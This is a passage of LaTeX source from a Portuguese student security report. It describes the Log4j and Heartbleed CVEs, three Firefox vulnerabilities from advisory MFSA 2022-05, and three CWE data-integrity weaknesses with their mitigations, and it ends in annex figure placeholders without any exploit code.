        
\includegraphics[width=1\textwidth]{images/metricasPergunta2.png}
        \caption{Métricas Log4j plataforma NVD}
    \end{minipage}
\end{figure}

\vspace{0.5cm}

Esta vulnerabilidade fez com que vários produtos fossem afetados. Dada a sua dimensão, a informação sobre estes produtos consta na aba dos \textbf{Anexos}.

\vspace{0.2cm}

Os exploits existentes nesta falha, como podemos verificar na figura abaixo, são Remote Code Execution (RCE) e Information Disclosure. O código dos mesmos, poderá ser consultado nos \textbf{Anexos}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{images/ExploitsLog4j.png}
    \caption{Exploits Log4j - plataforma ExploitDB}
\end{figure}
\vspace{3cm}



%--------------------------------------------------%
\clearpage
\subsection{Exercício 3}
\textbf{Em 2014 foi descoberta uma falha de programação na biblioteca de criptografia open source OpenSSL que ficou publicamente conhecida como Heartbleed. Esta falha foi identificada com CVE-2014-0160. Use esta identificação para descrever detalhadamente esta falha, incluindo (mas não apenas) as versões afetadas, os eventuais exploits existentes, vectores de ataque, impacto e soluções. Use as imagens de suas consultas e outros recursos utilizados para justificar suas conclusões.}

\vspace{0.5cm}

A vulnerabilidade em estudo incide na versão \textbf{OpenSSL} 1.0.1, antes do update 1.0.1g. Esta vulnerabilidade enfraquece a segurança dos protocolos de comunicação mais comuns na Internet (SSL e TSL). As implementações \textbf{TLS} (\textit{Transport Layer Security}) e \textbf{DTLS} (Datagram Transport Layer Security) em OpenSSL 1.0.1 antes de 1.0.1g não lidam adequadamente com pacotes de \textit{Heartbeat Extension}. Dessa maneira conseguimos efetuar ataques remotos e através dos mesmos obter informação sensível através de processos de memória. Para isso, utilizam e enviam pacotes que vão dar \textit{trigger} a um \textit{\textbf{buffer over-head}} que faz com que o \textit{attacker} consiga aceder a mais informação do que aquela que pretendemos. Esse facto pode ser demonstrado pela leitura de chaves privadas relacionadas com o \textit{d1\_both.c} e \textit{t1\_lib.c}.

\vspace{0.1cm}

A esta vulnerabilidade damos o nome de \textbf{Heartbleed Bug}. Resumidamente, é uma vulnerabilidade que permite roubar e aceder a informação protegida (em condições normais) pela encriptação SSL/TLS utilizada para proteger a Internet.


\vspace{0.2cm}

\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{images/descricaoPergunta3.png}
    \caption{Descrição CVE na plataforma MITRE}
\end{figure}

\vspace{0.4cm}

Analisando agora as métricas, podemos perceber que esta vulnerabilidade possui um \textit{Base Score} de 7.5, sendo considerada como uma vulnerabilidade de nível alto. Sabemos ainda que o seu impacto é de 3.6 e o \textit{score} da sua \textit{exploitability} é de 3.9. Quanto ao ataque, podemos perceber alguns aspetos pela informação recolhida:
\begin{itemize}
    \item Tem de ser efetuado na Rede;
    \item É um ataque de complexidade baixa;
    \item Não necessita de interação com o Utilizador ou qualquer privilégio;
    \item Confidencialidade afetada com um grau de impacto alto;
    \item Integridade e Disponibilidade não afetadas.
\end{itemize}


\begin{figure}[H]
    \centering
    \begin{minipage}{0.62\textwidth}
        \centering
        
\includegraphics[width=1\textwidth]{images/classificacaoPergunta3.png}
        \caption{Classificação CVE plataforma NVD}
    \end{minipage}
    \hfill
    \begin{minipage}{0.36\textwidth}
        \centering
        
\includegraphics[width=1\textwidth]{images/metricasPergunta3.png}
        \caption{Métricas CVE plataforma NVD}
    \end{minipage}
\end{figure}


Como referido anteriormente, esta vulnerabilidade afeta a aplicação e o fornecedor de OpenSSL, mais especificamente, a versão 1.0.1, antes do \textit{update} 1.0.1g. Contudo, esta aplicação não foi a única afetada, existindo uma coletânea de outros produtos, aplicações e fornecedores que sofreram com tal vulnerabilidade.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{images/produtosAfetadosPergunta3.png}
    \caption{Produtos Afetados CVE - plataforma CVEDetalis}
\end{figure}

\clearpage

Podemos, finalmente, pesquisar se foram encontrados, e no caso afirmativo, quais os exploits encontrados e partilhados. Para isso, iremos utilizar, mais uma vez, a plataforma \textbf{explit-db}, de forma a encontrar os mesmos. Como poderemos visualizar, foram encontrados e partilhados 4 exploits.

\vspace{0.1cm}

Fazendo uma pesquisa mais a fundo, e percebendo mesmo pelos títulos/nomes dados aos exploits partilhados, podemos perceber que se tratam de dois tipos de \textit{attacks}:
\begin{itemize}
    \item \textbf{Information Leak - }Fuga de Informação
    \item \textbf{Memory Disclosure - }Divulgação de Memória
\end{itemize}

Face aos dois tipos de \textit{attacks} possíveis, iremos disponibilizar o código para um \textit{exploit} de cada tipo nos \textbf{Anexos}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{images/exploitHeratbleedPergunta3.png}
    \caption{Exploits CVE - plataforma ExploitDB}
\end{figure}



%--------------------------------------------------%
\clearpage
\subsection{Exercício 4}
\textbf{Assim como diversas corporações, a Mozilla Foundation divulga informações sobre vulnerabilidades para as quais os seus produtos foram expostos através do seu Security Advisories. Em 08 de fevereiro de 2022, a companhia disponibilizou uma atualização do seu browser, i.e., Firefox ESR 91.6. Esta versão resolve uma série de vulnerabilidades listadas no relatório MFSA 2022-05. Descreva detalhadamente três vulnerabilidades listadas neste relatório.}

\vspace{0.5cm}

Fazendo uma pesquisa sobre \textbf{MFSA 2022-05}, podemos encontrar um relatório com uma listagem de vulnerabilidades disponibilizadas pela \textbf{Mozilla Foundation}. Neste relatório podemos encontrar as vulnerabilidades que foram corrigidas na atualização do Firefox para a versão \textbf{ESR 91.6}. O objetivo da questão é encontrar três vulnerabilidades presentes neste relatório, fanzendo uma descrição das mesmas. Posto isto, o grupo decidiu escolher as três que achou mais interessantes, sendo as mesmas apresentadas seguidamente. 

\vspace{0.5cm}

\subsubsection*{\textbf{Extensions could have bypassed permission confirmation during update}}

Esta é uma vulnerabilidade com um \textbf{impacto alto}. Se um utilizador instalasse uma extensão de um determinado tipo, a extensão poderia atualizar automaticamente por vontade própria e, ao fazê-lo, ignorar o \textit{prompt}. Como sabemos, o \textit{\textbf{prompt}} é a caixa de diálogo ou de notificações que nos pergunta se queremos alguma coisa, inserir texto, clicar num botão de decisão, entre outros. Ao ignorar este \textit{prompt} a nova versão extensão iria possuir todas as \textbf{permissões} que requisitasse. Como podemos perceber, apesar de simples, esta vulnerabilidade pode-se tornar muito perigosa, uma vez que Utilizador poderá estar a fornecer permissões que não quer, contra a sua vontade.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.9\textwidth]{images/descricaoPergunta4-1.png}
    \caption{Descrição CVE no relatório MFSA}
\end{figure}

\clearpage

\subsubsection*{\textbf{Memory safety bugs fixed in Firefox 97 and Firefox ESR 91.6}}

Esta é uma vulnerabilidade com um \textbf{impacto alto}. Alguns membros da comunidade \textbf{Mozilla Fuzzing Team}, bem como alguns dos seus desenvolvedores, reportaram alguns \textit{bugs} de segurança de memória (\textit{\textbf{memory safety}}). Alguns destes bugs revelaram, ainda, problemas de \textbf{corrupção de memória} e os \textit{Reporters} (pessoas que reportaram erros e bugs) consideraram que, com um mínimo de esforço, era até possível um \textit{attacker} explorar esta vulnerabilidade e correr código arbitrário à sua escolha.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.9\textwidth]{images/descricaoPergunta4-2.png}
    \caption{Descrição CVE no relatório MFSA}
\end{figure}

\vspace{0.5cm}

\subsubsection*{\textbf{Privilege Escalation to SYSTEM on Windows via Maintenance Service}}

Esta é uma vulnerabilidade com um \textbf{impacto alto}, que apenas afeta o Firefox no \textbf{Windows OS}. O Serviço de Manutenção (\textbf{Updater}) possuía um bug no tempo de verificação do tempo de uso (\textbf{Time-of-Check Time-of-Use bug}) que poderia ser abusivamente utilizado de forma a fornecer a um Utilizador a permissão de escrita numa diretoria arbitrária. Dessa maneira, esta vulnerabilidade poderia ter sido utilizada para escalar e aumentar o acesso a toda a rede dos ficheiros e de \textbf{SYSTEM} access. Desta forma, qualquer \textit{attacker} poderia infligir grandes danos, utilizando esta vulnerabilidade.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.9\textwidth]{images/descricaoPergunta4-3.png}
    \caption{Descrição CVE no relatório MFSA}
\end{figure}



%--------------------------------------------------%
\clearpage
\subsection{Exercício 5}
\textbf{Recorrendo ao CWE, descreva três tipos comuns de problemas relacionados com integridade de dados identificados no desenvolvimento de software e como podem ser evitados.}

\vspace{0.5cm}

O CWE (Common Weakness Enumeration) procura categorizar problemas relacionados com hardware e software, facilitando a sua identificação, mitigação e prevenção. De seguida, serão descritos três tipos de problemas relacionados com a integridade de dados.

\vspace{0.5cm}

\subsubsection*{Improper Validation of Integrity Check Value}

Este problema ocorre quando a verificação do checksum recebido e do checksum calculado não funciona corretamente. Isto pode levar à aceitação de pacotes com dados corrompidos ou até à aceitação de pacotes de origens desconhecidas. De forma a evitar este problema, deve-se garantir que o algoritmo de cálculo e verificação do checksum está de acordo com as especificações do protocolo das mensagens. \cite{ref_ex5_1}

\vspace{0.5cm}

\subsubsection*{Download of Code Without Integrity Check}

Este problema ocorre quando um executável ou código fonte são baixados de uma localização remota e executados sem verificação suficiente da sua integridade ou origem.

Uma das soluções deste problema é usar assinaturas criptográficas no código fonte, de forma a permitir que o cliente o verifique, evitando a execução de código de fontes maliciosas. Outra solução que pretende atenuar os danos de um possível ataque passa por executar o código com o mínimo de privilégios necessários. \cite{ref_ex5_2}

\vspace{0.5cm}

\subsubsection*{Missing Support for Integrity Check}

Este problema ocorre quando é usado um protocolo que não inclui um mecanismo de verificação da integridade dos dados. De forma a evitar este problema pode-se adicionar um método de checksum ao protocolo e garantir que este é corretamente implementado. \cite{ref_ex5_3}



%--------------------------------------------------%
\clearpage
\section{Conclusão}

Ao longo da execução desta ficha de exercícios, tivemos de pesquisar sobre vulnerabilidades existentes em aplicações vulgarmente usadas nos nossos computadores, abordar falhas de segurança descobertas em duas bibliotecas open source, analisar vulnerabilidades de um produto de uma corporação internacional e, através do CWE, descrever alguns problemas relacionados com integridade de dados.

Desta forma, fomos capazes de aprofundar o nosso conhecimento na área da segurança de sistemas informáticos, mais concretamente na identificação de padrões de vulnerabilidades e exposições publicamente conhecidas.

%--------------------------------------------------%
\clearpage
\begin{thebibliography}{}

\bibitem{ref_ex5_1}
\url{https://cwe.mitre.org/data/definitions/354.html}

\bibitem{ref_ex5_2}
\url{https://cwe.mitre.org/data/definitions/494.html}

\bibitem{ref_ex5_3}
\url{https://cwe.mitre.org/data/definitions/353.html}

\end{thebibliography}

\clearpage

\section*{Anexos}

\subsection*{CVE-2021-44228 (Produtos Afetados)}

\begin{figure}[H]
    \centering
    \begin{minipage}{0.49\textwidth}
        \centering
        
\includegraphics[width=1\textwidth]{images/produtosAfetadosPergunta2_1.png}
    \end{minipage}
    \hfill
    \begin{minipage}{0.49\textwidth}
        \centering
        
\includegraphics[width=1\textwidth]{images/produtosAfetadosPergunta2_2.png}
    \end{minipage}
\end{figure}

\begin{figure}[H]
    \centering
    \begin{minipage}{0.49\textwidth}
        \centering
        
\includegraphics[width=1\textwidth]{images/produtosAfetadosPergunta2_3.png}
    \end{minipage}
    \hfill
    \begin{minipage}{0.49\textwidth}
        \centering
        
\includegraphics[width=1\textwidth]{images/produtosAfetadosPergunta2_4.png}
    \end{minipage}
\end{figure}

\begin{figure}[H]
    \centering
    \begin{minipage}{0.49\textwidth}
        \centering
